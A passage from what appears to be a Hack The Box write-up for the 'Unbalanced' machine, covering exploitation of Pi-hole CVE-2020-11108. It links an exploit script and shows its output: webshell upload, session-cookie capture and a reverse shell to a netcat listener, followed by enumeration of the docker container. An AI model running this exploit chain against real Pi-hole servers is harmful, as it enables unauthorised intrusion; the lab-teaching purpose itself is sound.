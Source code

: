 Webshell/reverse-shell is now available at: 

![RCE](/assets/htb/Unbalanced/privesc/rce.png)

We successfully get code-execution.

#### Automatic exploitation

I have created an [exploit-script](https://github.com/chr0x6eos/HTB/blob/master/Unbalanced/pi-hole-CVE-2020-11108.py) based on the steps above. It is available on my [GitHub](https://github.com/chr0x6eos/HTB/tree/master/Unbalanced).

```bash
root@darkness:~# python3 exploit.py 
[+] Got session-cookie: PHPSESSID=eflcgeupmevesfj6f616286e25
[+] Webshell uploaded successfully!
[*] Sending reverse-shell to 10.10.14.22:443
cmd> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Running the exploit, we get a webshell, as well as a reverse-shell (if we listen on port 443).

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:49032.
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$
```

### Enumerating docker-instance

Now that we have a shell on the docker-instance, let us enumerate it to find a possible privesc-vector.

Let us check out the root of the docker-instance.

```bash
www-data@pihole:/$ ls -lh 
total 132K
-rw-rw-r--   1 root root  14K Jun  2  2019 bash_functions.sh
drwxr-xr-x   1 root root  12K Sep 20  2019 bin
drwxr-xr-x   2 root root 4.0K Sep  8  2019 boot
drwxr-xr-x   5 root root  360 Dec  2 15:41 dev
drwxrwxr-x   1 root root 4.0K Dec  2 15:41 etc
drwxr-xr-x   2 root root 4.0K Sep  8  2019 home
drwxr-xr-x   1 root root 4.0K Sep 20  2019 lib
drwxr-xr-x   2 root root 4.0K Sep 10  2019 lib64
drwxr-xr-x   2 root root 4.0K Sep  9  2018 libexec
drwxr-xr-x   2 root root 4.0K Sep 10  2019 media
drwxr-xr-x   2 root root 4.0K Sep 10  2019 mnt
drwxr-xr-x   1 root root 4.0K Sep 20  2019 opt
-rw-r--r--   1 root root  14K Sep 20  2019 pihole-install.log
dr-xr-xr-x 244 root root    0 Dec  2 15:41 proc
drwxrwxr-x   1 root root 4.0K Apr  5  2020 root
drwxr-xr-x   1 root root 4.0K Dec  2 15:41 run
-rwxr-xr-x   1 root root  389 Sep  9  2018 s6-init
```